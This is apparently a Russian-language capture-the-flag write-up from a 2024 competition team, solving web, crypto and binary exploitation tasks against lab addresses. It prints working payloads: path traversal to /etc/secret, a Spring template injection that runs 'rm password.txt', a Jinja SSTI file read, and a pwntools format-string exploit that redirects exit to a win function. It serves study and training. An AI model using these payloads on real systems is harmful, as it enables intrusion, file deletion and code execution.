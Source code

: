 # NTO-2024-xls-team

# Task solves

## web1

Сначала открываем инструменты разработчика, смотрим и находим строку:

`<a href="/download?file_type=file1.txt">20</a>`

Переходим по ссылке `http://192.168.12.10:5001/download?file_type=file1.txt`
и получаем *hint*:

`Hint_1 maybe in etc/secret ???`

Понимаем, что скорее всего нужно применить `Path Fuzzing`.
Ищем, находим подобные уязвимости и делаем запрос:

`http://192.168.12.10:5001/download?file_type=/../../etc/secret`

Получаем `flag` из файла secret: nto{P6t9_T77v6RsA1}

## web 2

Смотрим иходный код, понимаем, что всё зависит от файла `password.txt` и его нужно удалить/изменить, чтобы `/login` нас впустил. После нескольких часов гуглерства находим статью: `https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability`. Используем уязвимость: `http://192.168.12.13:8090//doc/__$%7BT(java.lang.Runtime).getRuntime().exec(%22rm%20password.txt%22)%7D__::.x.`.
После вводим: `http://192.168.12.13:8090/login?password=password`, радуемся, что получили `flag`.

`flag`: nto{abobovichasdfas} 

## web3

Пробуем разные способы обойти прокси, получаем: "http://192.168.12.11:8001//flag?name=a". Пробуем разные SSTI пейлоады, узнаем, что это jinja, собираем пейлоад: "http://192.168.12.11:8001//flag?name={{request.__init__.__globals__.__builtins__[%22open%22](%22./flag.txt%22).read()}}"

`flag`: nto{Ht1P_sM088Lin6_88Ti} 


## crypto2

По исходному коду понимаем, что нужно восстановить тайное число FLAG (закодированный текст) по известным эллиптической кривой E в кольце целых чисел по модулю p (простое число), генератору G и результату P = G * FLAG. Иными словами, задача на дискретное логарифмирование. В общем случае задача слишком сложна, но в задаче все параметры геренируются случайно, а значит можно подобрать такую кривую, порядок которой будет иметь достаточно небольшие делители и, переведя задачу в подгруппу с таким порядком, получить (перебором) FLAG по некоему модулю. Получив достаточно таких результатов по разным модулям, восстановим FLAG через китайскую теорему об остатках.

Полноценный скрипт решения (использует sagemath и PyCryptodome) [прилагается](./crypto2.py)

`flag`: nto{50mb0dy_45k3d_m3_f0r_d1scr3t3_l0g_2}


## pwn1

Используем Ghidra для декомпиляции программы, видим format string vulnerability. Генерируем пейлоад, меняющий функцию exit в plt на функцию win, при помощи pwntools. Читем флаг: `cat flag`
```Python
from pwn import *

context.log_level = 'debug'
context.bits = 64


addr = 0x404018
value = 0x401156

payload = fmtstr_payload(6, {addr : value})

# con = process("./main")
con = remote("192.168.12.13", 1923)

con.send(payload + b"\n")

con.interactive()
```

`flag`: nto{easy_formt_string}
